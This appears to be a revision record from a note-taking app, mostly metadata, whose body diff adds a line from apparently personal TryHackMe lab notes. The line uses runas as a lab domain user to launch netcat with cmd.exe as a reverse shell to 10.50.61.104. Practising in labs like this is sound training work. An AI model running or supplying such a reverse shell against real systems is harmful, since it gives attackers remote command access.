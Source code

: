 id: 8c2c5d52e5064f63b74600a5064e5499
parent_id: e04451abd6ab424eaba1bc2e6e48b671
item_type: 1
item_id: 6895cc172f90401891fc30852930a6f2
item_updated_time: 1658224750952
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"IP 4443\\\"\"],[1,\"\\\n> \\\n> runas /netonly /user:ZA.TRYHACKME.COM\\\\\\\\t1_toby.back5 \\\"c:\\\\\\\\tools\\\\\\\\\nc64.exe -e cmd.exe 10.50.61.104 1111\\\"\"],[0,\"\\\n\\\nThis i\"]],\"start1\":103,\"start2\":103,\"length1\":16,\"length2\":125}]"
metadata_diff: {"new":{"order":621604694364.375},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-19T10:07:16.137Z
created_time: 2022-07-19T10:07:16.137Z
type_: 13